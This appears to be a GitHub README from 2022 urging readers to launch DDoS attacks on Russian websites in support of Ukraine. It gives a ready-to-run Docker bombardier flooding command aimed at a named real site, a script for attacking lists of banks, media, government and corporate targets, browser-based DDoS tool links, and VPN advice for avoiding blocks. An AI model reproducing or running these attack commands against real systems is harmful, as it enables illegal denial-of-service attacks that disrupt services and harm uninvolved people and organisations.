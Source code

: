 # Save Ukraine 🇺🇦

Russia has vilely attacked Ukraine on the morning of February 24, bombing peaceful cities with millions of people.

I've tried to compose a list of DDoS tools to help win this war on the informational front.

Our goals:
- Disrupt Russian propaganda websites and gov services
- Force people in Russia to protest against violent government policy
- Win this war

Last but not least [Русский корабль — иди нахуй!](https://www.youtube.com/watch?v=LDrFVdms8yk)

## VPN software

It's better to secure yourself with a VPN service. It makes you more anonymous, and you can switch to a different IP if yours get blocked.

I'll list here only ones that [have shown](https://macpaw.com/news/macpaw-amidst-aggression) support to Ukraine and provided temporary free access.

Ideally, choose a Russian IP, so you have fewer chances to be blocked.

### ClearVPN

1. Sign up on the website
2. Click on "Redeem a promocode"
3. Enter coupon code "SAVEUKRAINE"
4. Download the desktop app
5. Once installed, go back to the website and click "Auto-login"

### F-Secure FREEDOME VPN

1. Register using [this link](https://t.co/TekcNPxW9p) (copied from [here](https://twitter.com/fsecure/status/1497248407303462960))
2. Fill out your details and choose "Ukraine" as a country
3. Copy activation code
4. Download "F-Secure FREEDOME VPN" from [here](https://www.f-secure.com/en/home/download#freedome)
5. Once downloaded, go to "Subscriptions" -> "Activate subscription" and enter your license code

## List of targets

- [Banks and financial services](./targets/banks.txt)
- [Media propaganda resources](./targets/media.txt) 
- [Governmental and state resources](./targets/state.txt)
- [Business corporations](./targets/corporations.txt)
- [Other unsorted](./targets/unsorted.txt) (feel free to contribute)

## Checking availability

You can check the availability of target resources using these websites:

- https://check-host.net/check-ping
- https://ddosmonitor.herokuapp.com

## Tools

### Docker (single-website attack)

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal
3. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 9600s -l https://www.1tv.com/` (change URL to the one you want to attack)

> See [Bombardier docs](https://github.com/codesenberg/bombardier) for more options

### Docker (multiple websites)

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal
3. Download `bombardier.sh`
4. Run `sudo chmod +x bombardier.sh`
5. Run `./bombardier.sh` to attack all targets
6. Run `./bombardier.sh banks` to attack specific category targets (see [targets](./targets))

## Browser-based

These are client-based DDoS tools. They use your machine resources (CPU and memory).

- https://attack-ui.vercel.app/attack/ddos/start ([instructions](https://destiny-jumbo-8c6.notion.site/Attack-UI-5aebc8eaedcc47448b6d79fc4243d141))
- https://nowarukraine.online/
- https://vug.pl/takeRussiaDown.html
- https://cyber-yozh.com/
- https://playforukraine.live/

## Support Ukraine with a donation

Please support Ukraine to win this war. Every cent matters.

These are verified and government-supported funding websites:

1. https://uahelp.monobank.ua/
2. https://bank.gov.ua/en/news/all/natsionalniy-bank-vidkriv-spetsrahunok-dlya-zboru-koshtiv-na-potrebi-armiyi
3. https://putler.io/

You can also support with crypto ([source](https://t.me/zedigital/1107)):
- BTC: `357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P` ([see balance](https://www.blockchain.com/btc/address/357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P))
- ETH: `0x165CD37b4C644C2921454429E7F9358d18A45e14` ([see balance](https://etherscan.io/address/0x165CD37b4C644C2921454429E7F9358d18A45e14))
- USDT (TRC20): `TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy` ([see balance](https://usdt.tokenview.com/en/address/TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy))

## Join our IT army

1. [Official IT army Telegram channel](https://t.me/itarmyofukraine2022)
2. [Report vulnerabilities](http://t.me/stop_russian_war_bot) on Russian resources anonymously

## Any suggestions?

If you have something to add to the list, please submit a PR or write to comradefuckz@protonmail.com. 

